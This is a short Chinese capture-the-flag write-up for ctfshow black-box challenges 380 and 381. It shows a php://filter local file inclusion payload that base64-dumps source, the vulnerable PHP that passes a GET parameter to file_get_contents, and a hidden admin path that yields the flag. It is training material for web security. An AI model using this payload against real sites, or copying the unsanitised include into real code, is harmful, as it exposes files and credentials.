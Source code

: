 ```yaml
---
title: ctfshow-黑盒测试
id: ctfshow-黑盒测试
date: 2021-10-21 16:43:30
sidebar_position: 14
---
```




## 380 读文件

瞎点看到都是page_?.php的格式，尝试改成page.php（可以扫）

报错缺少id参数，那么get一个id进去

伪协议读个源码：`page.php?id=php://filter/convert.base64-encode/resource=page`

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-08 19:50:40
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-08 19:59:24
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


#error_reporting(0);
$id = $_GET['id'];
if(!isset($id)){
	die('打开$id.php失败');
}else{
	$html = file_get_contents($id.'.php');
	echo $html;
}
```

flag在flag.php：`page.php?id=flag`

## 381 后台路径

长得一样啊，再试试page.php，提示`打开page_$id.php失败`这样的字符拼接有点难办啦

看看别的地方，看到关键目录`alsckdfy`，访问即得flag

![](https://i.loli.net/2021/10/21/AwWNLUvu8txMI3E.png)
